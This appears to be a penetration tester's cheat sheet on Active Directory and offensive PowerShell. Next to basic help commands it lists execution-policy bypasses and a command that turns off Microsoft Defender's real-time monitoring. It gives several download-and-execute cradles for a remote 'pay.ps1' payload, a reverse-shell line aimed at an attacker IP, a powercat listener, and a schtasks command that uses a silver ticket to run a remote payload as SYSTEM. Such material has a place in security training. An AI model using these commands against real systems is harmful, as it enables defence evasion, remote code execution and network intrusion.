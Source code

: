 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

```powershell
Get-Help * - Lists everything abtout the help topic
Get-Help process (lists everything which contains the word process)
Update-Help - Update the healp system (v3+)
Get-help cmdlet_name -Full - List full help about a topic
Get-Help cmdlet_name -Examples
Get-command -CommandType cmdlet - List all cmdlets
```



**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"\
****&#x20;

### Execut

It is NOT a security boundary

```powershell
Powershell -exectionpolicy bypass
powershell -ep bypass
Powershell -c <cmd>
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"
```



### Language Mode

**Display current language mode**

$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
Only Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Disable Microsoft Defender**

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### Execute .PS1 File / PowerView

{% code overflow="wrap" %}
```powershell
. .\PowerView.ps1
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)
```
{% endcode %}

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

```powershell
iex (new-Object Net.WebClient).DownloadString('
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-Command -Module ActiveDirectory
```



### Import Modules / Execute

**Import a module/file**

```powershell
Import-Module <modulepath>
```

**List all commands of a module**

```powershell
Get-Command -Module <modulename>
```

\
**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

{% code overflow="wrap" %}
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)
```
{% endcode %}

#### &#x20;**Use a COM Object**

{% code overflow="wrap" %}
```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
{% endcode %}

#### **PSv3 or newer**

{% code overflow="wrap" %}
```powershell
i Iex (iwr '
http://websever/ps.ps1
') -iwr is alias for invoke-web request
 $h=New-Object -ComObject
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://werbser.ps.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
{% endcode %}

**Invoke\_PowerShellTCP.ps1**

Add line at the end of the script:\
Invoke-PowershellTcp -Reverse -IPAddress attackersIP -Port port



## Other

**Display/delete Kerberos Tickets**\
****klist\
klist purge

**List tasks**\
schtasks /S hostname.dom.local

**Schedudle an execute a task with silver ticket of "HOST" Service**&#x20;

{% code overflow="wrap" %}
```powershell
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke_powerShellTcp.ps1''')'" 
schtasks /Run /S hostname.dom.local /TN "STCheck"
```
{% endcode %}

**Start listener**\
****. .\powercat.ps1\
powercat -l -v -p 443 -t 1000\
&#x20; When connected press a few times enter

**HFS Webserver tool**\
****Drag & drop files in window to host it

&#x20;








